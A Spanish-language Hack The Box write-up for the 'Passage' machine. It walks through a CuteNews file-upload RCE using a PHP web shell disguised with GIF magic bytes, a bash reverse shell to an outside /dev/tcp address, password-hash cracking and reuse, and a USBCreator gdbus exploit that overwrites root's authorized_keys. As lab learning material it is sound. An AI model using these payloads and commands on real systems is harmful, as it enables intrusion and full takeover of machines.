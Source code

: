 ```yaml
---
layout: single
title: Passage - Hack The Box
excerpt: ""
date: 2023-12-01
classes: wide
header:
  teaser: /assets/images/htb-writeup-passage/passage_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Abusing JWT

---
```


# PortScan
____

```
 # Nmap 7.93 scan initiated Fri Dec  1 10:05:34 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.10.206
 Nmap scan report for 10.10.10.206
 Host is up (0.056s latency).
 
 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 17eb9e23ea23b6b1bcc64fdb98d3d4a1 (RSA)
 |   256 71645150c37f184703983e5eb81019fc (ECDSA)
 |_  256 fd562af8d060a7f1a0a147a438d6a8a1 (ED25519)
 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
 |_http-title: Passage News
 |_http-server-header: Apache/2.4.18 (Ubuntu)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Fri Dec  1 10:05:43 2023 -- 1 IP address (1 host up) scanned in 8.94 seconds
```


# WebSite
____
![](/assets/images/htb-writeup-passage/Pasted image 20231201114320.png)

Parece un sitio de noticias, así que opto por ver el código fuente, notando qué está corriendo un "**CuteNews**", que indagando un poco en internet es un gestor de noticias.
![](/assets/images/htb-writeup-passage/Pasted image 20231201114800.png)


Pruebo ir a esa redirección, pero sin sin ir al recurso "**rss.php**", descubriendo así el panel de autenticación.

![](/assets/images/htb-writeup-passage/Pasted image 20231201114925.png)

Logrando así ver la versión del "**CuteNews**", así que sabiendo la versión se me ocurre buscar posibilidades en internet...

Encontrándome así que esta versión es vulnerable a un **RCE** mediante la subida de un archivo malicioso **PHP** al avatar, usando los primeros **magick numbers** de un **GIF** para saltar la "**medida de seguridad**" de que se suban archivos maliciosos.

**PoC** de un script en python para hacerlo automatizado tan sólo indicando la URL [CuteNews 2.1.2 Remote Code Execution](https://packetstormsecurity.com/files/159134/CuteNews-2.1.2-Remote-Code-Execution.html)


En éste caso, estaré haciéndolo manual ya qué conozco como el script funciona & hace esta subida de archivo malicioso...

1. Creamos el archivo malicioso con extensión **.php** que subiremos como "avatar":
```php
GIF8;
<?php system($_GET['cmd']); ?>
```


2. Nos registramos en el "**CuteNews**", para irnos a la "**opciones personales**".

![](/assets/images/htb-writeup-passage/Pasted image 20231201115631.png)

3. Posterior a ello subimos en el avatar el archivo malicioso **php**, logrando evaditar la "medida de seguridad" para no subir código php.

4. Vamos al directorio de subidas de archivos, logrando ver el avatar que hemos subido.
![](/assets/images/htb-writeup-passage/Pasted image 20231201115917.png)

![](/assets/images/htb-writeup-passage/Pasted image 20231201115957.png)

Logrando así como vemos arriba llevar a cabo el **RCE** exitosamente,  así que procedo a entablarme una **Reverse Shell**.


1. Nos ponemos en escucha con **Netcat**.
```bash
nc -nlvp PORT
```

2. Nos mandamos la **Reverse Shell** desde la máquina por la URL.
```bash
bash -c 'bash -i >%26/dev/tcp/10.10.x.x/PORT 0>%261'
```

![](/assets/images/htb-writeup-passage/Pasted image 20231201120446.png)

Ya tan sólo quedaría darle Tratamiento TTY, sino sabes como [((LEE ESTE POST))](https://4uli.github.io/tratamiento-tty/)


# Escalada de Privilegios #1 
___

Lo primero qué hago, es ver cuales son los usuarios con directorios personales.
```bash
ls -la /home/
```
![](/assets/images/htb-writeup-passage/Pasted image 20231201120824.png)

Descubriendo qué existen dos usuarios con directorios, "**nadav**" & "**paul**", y a los cuales nisiquiera podemos entrar a sus directorios, así que empiezo buscando en el código fuente del servicio web **CuteNews**.

Descubriendo así en el directorio "/**cdata**" un subdirectorio interesante con nombre "**/users**", el cual contiene información de los usuarios en **base64**.
hallando allí un recurso llamado "lines", el cual contiene multiples cadenas en base64 aparentemente con información de todos los usuarios...
![](/assets/images/htb-writeup-passage/Pasted image 20231201121158.png)

Al ser varias cadenas, hago una iteración rápida para desconvertir de base64 cada linea del archivo "**lines**".
```bash
cat lines | grep -v php | while read line; do echo $line | base64 -d;echo; done
```

Logrando así ver información de los usuarios en texto claro.
![](/assets/images/htb-writeup-passage/Pasted image 20231201121424.png)

Excepto la contraseña, lo qué aparentemente está **hasheada**, en éste caso me interesaría **crackear** la qué es del usuario **Paul**, a ver sí se está reusando esa contraseña del "**CuteNews**" en el usuario válido del sistema.

copio el **hash**, y utilizo el recurso web para crackear [hashes.com](https://hashes.com/en/decrypt/hash), logrando así crackear la contraseña.
![](/assets/images/htb-writeup-passage/Pasted image 20231201121647.png)

y pruebo a reutilizarla como "**paul**"
![](/assets/images/htb-writeup-passage/Pasted image 20231201121712.png)

Ha funcionado, y hemos ingresado como Paul.

# Escalada de Privilegios #2 
___

Indagando en el directorio personal de "**paul**", descubrí que en el directorio **SSH** tiene como claves autorizadas la de **nadav** así que podríamos ingresar a éste usuario sin proporcionar contraseña.

![](/assets/images/htb-writeup-passage/Pasted image 20231201121842.png)

# Escalada de Privilegios #3 
___

Siendo "**nadav**", entro a su directorio personal, descubriendo qué está un "**.viminfo**" y procedo a ver qué contiene.
![](/assets/images/htb-writeup-passage/Pasted image 20231201122046.png)

Como vemos en el historial de **vim**  existe un **USBCreator** en la máquina.

Indago en internet en busca de posibles vulnerabilidades para escalar privilegios con ésto, encontrando así la vulnerabilidad **CVE-2015-3643**, la cual de forma resumida consiste en qué podemos **sobre-escribir** cualquier archivo existente aunque no tengamos permisos, así que se me ocurre sobre-escribir el "**authorized_keys**" de **Root** para ganar acceso mediante **SSH** sin proporcionar credenciales.

1. Creamos una copia de la clave pública de "**nadav**" en el directorio de la misma.
```bash
cp authorized_keys ~/authorized_keys
```

2. Sobre-escribimos la clave autorizada de Root, para poder acceder como "nadav" sin proporcionar credenciales.
```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/authorized_keys root/.ssh/authorized_keys true
```

![](/assets/images/htb-writeup-passage/Pasted image 20231201124305.png)

Logrando así ganar acceso como Root.
